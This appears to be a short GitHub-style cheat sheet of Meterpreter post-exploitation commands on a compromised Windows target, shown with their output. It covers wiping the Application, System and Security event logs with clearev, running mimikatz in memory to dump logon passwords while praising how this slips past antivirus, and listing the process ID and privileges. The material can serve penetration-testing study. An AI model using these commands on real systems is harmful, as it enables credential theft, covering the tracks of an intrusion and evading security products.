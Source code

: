 ## 1.)clearev clears the Application, system, and Security logs on the target system:
```python
meterpreter > clearev
[*] Wiping 1752 records from Application...
[*] Wiping 5053 records from System...
[*] Wiping 11888 records from Security...
```

## 2.)Executing command on target system
```python
meterpreter > execute -H -i -c -m -d calc.exe -f /usr/share/windows-resources/mimikatz/Win32/mimikatz.exe -a '"sekurlsa::logonPasswords full" exit'
Process 3992 created.
Channel 2 created.
```
- The awesome thing about the execute command is that it allows us to run commands from memory without uploading the binary to the target, this way effectively bypassing several antivirus products.

## 3.)Retrieving the process id using getpid
```python
meterpreter > getpid
Current pid: 4068
```
- The 'getpid' command is used in Meterpreter to retrieve the process ID(PID) of the currently running process. 

## 4.)listing all privileges available for the current process using getprivs
```python
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
```